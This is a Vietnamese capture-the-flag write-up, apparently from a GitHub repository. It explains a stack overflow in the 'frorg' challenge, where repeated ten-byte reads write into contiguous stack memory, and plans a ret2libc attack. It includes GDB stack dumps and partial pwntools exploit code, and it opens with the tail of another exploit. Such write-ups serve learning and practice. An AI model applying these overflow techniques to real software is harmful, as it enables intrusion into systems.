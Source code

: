 ```python
for i in range(10):
    option1()
p.interactive()
```

## Kết quả

![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/60173762-3c4d-4bbf-a479-4962440b291d)

# frorg

## Source

<details><summary> Source </summary></details>

## Ý tưởng

- Ta chú ý dòng này `read(0, (char *)&v4[1] + 10 * i, 0xAuLL);`, đại loại nó sẽ read vào địa chỉ `v4 + 10 * i` vậy các địa chỉ nà sẽ liên tụ với nhau

```
0x007ffe213b4b28│+0x0008: 0x0000000900000000
0x007ffe213b4b30│+0x0010: "aaaaaaaaaa"   ← $rsi
0x007ffe213b4b38│+0x0018: 0x00000000006161 ("aa"?)
```

- Ta debug thử thì đúng như lí thuyết, 10 byte tiếp theo sẽ là

```
0x007ffe213b4b28│+0x0008: 0x0000000900000000
0x007ffe213b4b30│+0x0010: "aaaaaaaaaa"   ← $rsi
0x007ffe213b4b38│+0x0018: 0x62626262626161 ("aa"?)
0x007ffe213b4b40│+0x0020: 0x0000000062626262
```

- Vậy nó sẽ là ret2libc, chỉ là cực hơn thôi
- Chú ý chỗ này

```
0x007ffe213b4b50│+0x0030: 0x0000000000000000
0x007ffe213b4b58│+0x0038: 0x00000002d0090ad0
0x007ffe213b4b60│+0x0040: 0x0000000000000001     ← $rbp
```

- số 2 trong này sử dụng để biểu diễn số vòng lặp, nên khi ghi đè nó thì phải trả lại cho nó giá trị đúng, ở câu lệnh này `0x401275 <main+139>       cmp    DWORD PTR [rbp-0x4], eax`

## Khai thác

### offset

```python
sla(b"store? \n", b"9")
for i in range(4):
    sa(b"name: \n", b"a" * 10)
payload = p64(0x0461616161) + b"aa"
sa(b"name: \n", payload)
```
